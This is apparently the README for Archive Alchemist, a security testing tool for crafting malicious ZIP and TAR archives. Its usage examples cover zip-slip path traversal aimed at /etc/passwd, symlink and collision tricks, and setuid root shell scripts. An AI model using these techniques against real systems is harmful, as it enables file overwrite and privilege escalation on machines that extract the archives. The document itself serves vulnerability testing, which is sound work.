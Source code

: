 # Archive Alchemist

Archive Alchemist is a security research tool for creating specially crafted archives to test extraction vulnerabilities. 100% vibecoded, use at own disposal.

## Features

- Create ZIP and TAR archives with malicious patterns
- Support for path traversal attacks
- Support for symlinks and hardlinks
- Ability to set special permission bits (setuid, setgid, sticky bit)
- Fine-grained control over file attributes (mode, uid, gid, mtime)
- Multiple manipulation commands: add, replace, append, modify

## Installation

```bash
# Clone the repository
git clone https://github.com/avlidienbrunn/archive-alchemist.git
cd archive-alchemist

# Make the script executable
chmod +x archive-alchemist.py

# Optional: create a symlink to use globally
sudo ln -s $(pwd)/archive-alchemist.py /usr/local/bin/archive-alchemist
```

## Usage

### Basic Usage

```bash
./archive-alchemist.py -f archive.zip -t zip <command> [options]
```

### Archive Type Detection

If `-t`/`--type` flag is not specified, Archive Alchemist determines the archive type in two ways:

1. **Magic Bytes Detection**: For existing archives, the tool identifies the format by examining the file's content signature.

2. **Extension-based Detection**: For new archives or when magic bytes detection fails, the tool uses the file extension:
   - `.zip`: ZIP format
   - `.tar`: TAR format
   - `.tar.gz` or `.tgz`: Compressed TAR format

For files with unrecognized extensions and no valid magic bytes, ZIP format is used by default.

You can always override automatic detection by explicitly specifying the `-t` flag:

```bash
# Force TAR format regardless of extension or content:
./archive-alchemist.py -f archive.zip -t tar add file.txt --content "Using TAR format"
```

### Commands

#### Add Files

```bash
# Add a regular file
./archive-alchemist.py -f archive.zip add hello.js --content "console.log('hello')"

# Add a file with path traversal
./archive-alchemist.py -f archive.tar -t tar add "../../../etc/passwd" --content "fake passwd file"

# Add a symlink
./archive-alchemist.py -f archive.tar -t tar add hello.js --symlink "/tmp/xx.txt"

# Add with permission bits
./archive-alchemist.py -f archive.tar -t tar add exploit.sh --content "#!/bin/sh\necho hacked" --mode 0755 --setuid
```

#### Replace Files

```bash
# Replace existing file content
./archive-alchemist.py -f archive.zip replace hello.js --content "console.log('replaced')"
```

#### Append to Files

```bash
# Append content to existing file
./archive-alchemist.py -f archive.zip append hello.js --content "\nconsole.log('appended')"
```

#### Modify Attributes

```bash
# Modify file attributes
./archive-alchemist.py -f archive.tar -t tar modify hello.js --mode 0755 --uid 0 --gid 0 --setuid
```

#### Remove Files

```bash
# Remove a file from an archive
./archive-alchemist.py -v -f archive.zip remove file.txt

# Remove a directory and all its contents
./archive-alchemist.py -v -f archive.tar -t tar remove directory/
```

#### List Archive Contents

```bash
# List files in an archive
./archive-alchemist.py -f archive.zip list

# Show detailed listing with file attributes
./archive-alchemist.py -f archive.tar -t tar list --long 1

# or the short form
./archive-alchemist.py -f archive.zip list -l 0
```

### Examples for Security Testing

#### Zip Slip Attack

```bash
# Create a zip with path traversal payload
./archive-alchemist.py -f zipslip.zip add "../../../tmp/evil.txt" --content "I escaped the extraction directory!"
```

#### Symlink Attack

```bash
# Create a tar with a symlink pointing to a sensitive file
./archive-alchemist.py -f symlink_attack.tar -t tar add .bashrc --symlink "/etc/passwd"
```

#### File Collisions with Symlinks

```bash
# First add a symlink
./archive-alchemist.py -f collision.tar -t tar add config.txt --symlink "/tmp/target.txt"

# Then add a regular file with the same name (will be extracted last)
./archive-alchemist.py -f collision.tar -t tar add config.txt --content "Overwrite after symlink is created"
```

#### Setuid Executable

```bash
# Create a setuid executable
./archive-alchemist.py -f setuid_attack.tar -t tar add exploit --content "#!/bin/sh\nwhoami" --mode 0755 --setuid --uid 0
```

## Security Considerations

This tool is designed for security research and vulnerability testing. Using it against systems without explicit permission is illegal and unethical.